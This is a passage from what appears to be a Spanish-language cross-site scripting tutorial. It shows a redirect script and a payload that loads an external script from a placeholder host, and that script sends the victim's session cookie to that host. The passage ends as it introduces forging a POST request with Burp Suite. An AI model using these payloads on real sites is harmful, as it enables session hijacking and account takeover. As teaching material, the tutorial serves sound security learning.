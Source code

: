 
## Redirect

Tambien haciendo uso de la misma logica se podría redirigir a un usuario

```js
<script>
window.location.href = "https://www.google.com";
</script>
```

## External javascript source + secuestro de cookie de sesion

Haciendo uso de un servidor externo y un script en Javascript se puede lograr secuestrar las cookies de inicio de sesion<br>

> Esto es posible solamente si el indicador HttpOnly esta desactivado
{: .prompt-info }

payload:

```js
<script src="http://0.0.0.0/test.js"></script>
```


contenido de test.js

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://0.0.0.0/?cookie=' + document.cookie);
request.send();
```

Al interpretarse el codigo js va a enviar su cookie de sesion sin saberlo


## Creando POST desde otra cuenta

Antes de hacer este ejemplo practico, necesitamos averiguar como es que se manejan las peticiones, para esto es recomendable usar Burpsuite para ver el campo completo de la request y entender que necesitamos.<br>

![burpsuite](/assets/imgs/cap_xss_14.png)
